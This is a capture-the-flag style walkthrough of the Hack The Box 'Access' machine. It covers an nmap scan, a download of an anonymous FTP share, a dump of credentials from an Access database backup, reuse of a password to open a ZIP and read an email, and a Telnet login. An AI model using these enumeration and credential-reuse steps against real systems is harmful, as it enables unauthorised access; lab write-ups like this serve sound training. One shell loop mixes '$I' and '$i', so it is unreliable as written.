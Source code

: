 # Exercise: Enumerating and exploiting FTP and Telnet on Hack The Box case machine Access

Access is a Windows box that has an FTP server on which you will find a backup of an MS Access database and a password-protected ZIP file containing a backup of a Microsoft Outlook email file. Dumping the Access database give server usernames and passwords, one of which can be used to unzip the ZIP file. Viewing the emails in the PST file found there, gives another password that can be used to gain access via Telnet.

An nmap scan shows that the TCP ports 21 \(FTP\), 23 \(Telnet\) and 80 \(HTTP\) are open. Nmap tells you that anonymous login is allowed on FTP.

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Access]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- access.htb -oA nmap/full-tcp
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst:
|_ SYST: Windows_NT
23/tcp open telnet?
80/tcp open http Microsoft IIS httpd 7.5
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

 On logging in with user anonymous, password anonymous, you find 2 directories, "Backups" and "Engineer". The Backups directory contains an mdb file which indicates that it is a backup of an Access database file. The Engineer directory contains a zip file named "Access Control.zip".

To download everything to our machine, we can use wget from our local machine:

```bash
┌─[rin@parrot]─[~/boxes/Access/FTP]
└──╼ $wget -r --no-passive-ftp ftp://anonymous:anonymous@access.htb
--2021-02-28 14:58:13-- ftp://anonymous:*password*@access.htb/
 => ‘access.htb/.listing’
Resolving access.htb (access.htb)... 10.129.105.84
Connecting to access.htb (access.htb)|10.129.105.84|:21... connected.
Logging in as anonymous ... Logged in!
<SNIP>
```

The -r flag tells wget to do a recursive fetch which goes into every directory and fetches the contents. The --no-passive-ftp flag tells wget not to try and download files using passive mode. If you try and run the command without the --no-passive-ftp flag, wget will try and establish passive mode and fail, aborting the command.

Once the command completes, you will have the following on your local disk:

```bash
┌─[rin@parrot]─[~/boxes/Access/FTP]
└──╼ $tree access.htb
access.htb
├── Backups
│   └── backup.mdb
└── Engineer
 └── Access Control.zip
2 directories, 2 files
```

If you try and unzip Access Control.zip, it will give an error saying that it can't unzip because the zip file uses "unsupported compression method 99" which means that it was zipped using 7-Zip. If you try 7z on it, you will be prompted for a password. So leaving that for the moment, you can explore the access database backup using mdbtools.

{% hint style="info" %}
mdbtools can be installed with:

`sudo apt install mdbtools`
{% endhint %}

Create a directory called tables and move backup.mdb into it then run:

```bash
for I in $(mdb-tables backup.mdb);do mdb-export backup.mdb $i > $i;done
```

This script will get each table name and then export the contents of the table, saving it to a file named using the table name. Most of the tables are empty and you can sort the files by line count using:

```bash
wc -l * | sort -n
```

On looking at the files with more than 2 lines, you will notice a table called auth\_user:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Access/tables]
└──╼ $cat auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

The first thing to try is the engineer password on the zip file:

```bash
┌─[rin@parrot]─[~/boxes/Access/access.htb/Engineer]
└──╼ $7z x 'Access Control.zip'
7-Zip [64] 16.02 : Copyright I 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_AU.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs IntelI CoreI i9-9980HK CPU @ 2.40GHz (906ED),ASM,AES-NI)
Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)
Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870
Enter password (will not be echoed):
Everything is Ok
Size: 271360
Compressed: 10870
```

The pst file is a Microsoft Outlook email file that can be read using the program "readpst". Running this on "Access Control.pst" will extract an mbox file. With cat, the contents reveal an email that is in the "Deleted Items" folder. This email is from john@megacorp.com to security@accesscontrolsystems.com saying that:

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller. Please ensure this is passed on to your engineers.

You can then use the username security and password 4Cc3ssC0ntr0ller to telnet onto the box:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Access]
└──╼ $telnet access.htb
Trying 10.129.45.60...
Connected to access.htb.
Escape character is '^]'.
Welcome to Microsoft Telnet Service
login: security
password:
*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
C:\Users\security>
```

It won't be long before you notice that the shell that Telnet provides is limited. The arrow keys don't work and nor does the delete key. Output is not formatted correctly. This is a very good example of where the shell is not a full TTY. You can improve things by running a Nishang PowerShell reverse shell, but I will leave this here for the moment and come back later when I discuss privilege escalation and persistence.

